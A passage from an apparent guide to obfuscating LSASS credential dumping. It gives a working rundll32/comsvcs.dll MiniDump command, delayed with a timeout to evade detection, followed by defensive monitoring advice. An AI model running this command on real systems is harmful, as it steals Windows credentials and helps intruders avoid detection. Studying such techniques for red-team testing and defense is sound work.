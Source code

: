    - **Sleep Functions**: Introduce a sleep or delay before executing the dump command to reduce the likelihood of detection by security software.

     ```cmd
     timeout /t 30 /nobreak >nul & rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full
     ```

### **Defense Considerations**

While these obfuscation techniques can make it harder for security tools to detect LSASS dumping, defenders can still monitor for suspicious activities:

- **Command-Line Monitoring**: Keep an eye on command-line arguments, especially those related to `rundll32.exe` and `comsvcs.dll`.
- **Behavioral Analysis**: Focus on the behavior of processes and their interaction with LSASS rather than just relying on static signatures.
- **Memory Analysis**: Analyze memory for the presence of suspicious DLLs or reflective loading attempts.

Using these obfuscation techniques in a penetration test or a red team engagement can help in assessing the effectiveness of an organization's security defenses, but they should be used ethically and within legal boundaries.